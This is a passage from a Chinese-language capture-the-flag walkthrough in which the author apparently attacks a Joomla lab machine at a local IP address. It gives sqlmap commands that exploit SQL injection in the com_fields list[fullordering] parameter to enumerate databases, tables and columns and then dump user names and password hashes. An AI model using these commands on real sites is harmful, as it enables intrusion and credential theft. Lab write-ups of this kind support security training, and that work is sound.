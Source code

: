 ![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MYLsiafhuCAGuOSuIhKap61m6BzhgSL26WWCkkyiaibvgS59s5icS2thhJW4QBkKgFmAZmzXPzMsXxhEg/640?wx_fmt=png)

可以看到 sql 注入脚本

05 sql 注入
---------

既然我们获得了 sql 注入脚本，那直接可以拿过来使用，记得修改下靶机的 Ip 地址

```
#获取当前数据库
sqlmap -u"http://192.168.1.116//index.php?option=com_fields&view=

fields&layout=modal&list[fullordering]=updatexml"--risk=3--level=5--

random-agent--dbs-p list[fullordering]
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MYLsiafhuCAGuOSuIhKap61mZeZddepGcwX3Llj4kD2MazibJ9WX1fQKxiaxTOqmtZ8IQFlaFdovaVgA/640?wx_fmt=png)

可以看到数据库为`oomladb`，知道了数据库，接下来获取一下表

```
#获取表
sqlmap -u"http://192.168.1.116//index.php?option=com_fields&view=

fields&layout=modal&list[fullordering]=updatexml"--risk=3--level=5--

random-agent-D joomladb --tables-p list[fullordering]
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MYLsiafhuCAGuOSuIhKap61mKIMWUyTkjYR14icuhoIjlFrDvickvOhqQhic1YM7UJNqDVTP65xiaS2SXw/640?wx_fmt=png)

可以看到有个`#__users`的表，查看一下，一般登录数据都会存放在这个表中

```
#获取字段
sqlmap -u"http://192.168.1.116//index.php?option=com_fields&view=

fields&layout=modal&list[fullordering]=updatexml"--risk=3--level=5--

random-agent-D"joomladb"-T"#__users"  -columns  -p list[fullordering]
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MYLsiafhuCAGuOSuIhKap61mognTGJDLz94TpyIuEiaoPibojTXpbCoADj5ZgoEdQ6GsKxJWvZOERspg/640?wx_fmt=gif)![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MYLsiafhuCAGuOSuIhKap61mfQgHhSta6p9dq2oGydjoG8rmvn8qESvEITciceDHvEwOjZeOTc197Ew/640?wx_fmt=png)

获取到用户表的字段，接下来就是获取数据

```
#获取数据
sqlmap -u"http://192.168.1.116//index.php?option=com_fields&view=

fields&layout=modal&list[fullordering]=updatexml"--risk=3--level=5--

random-agent-D"joomladb"-T"#__users"  -C “name,password”--dump  

-p list[fullordering]
```
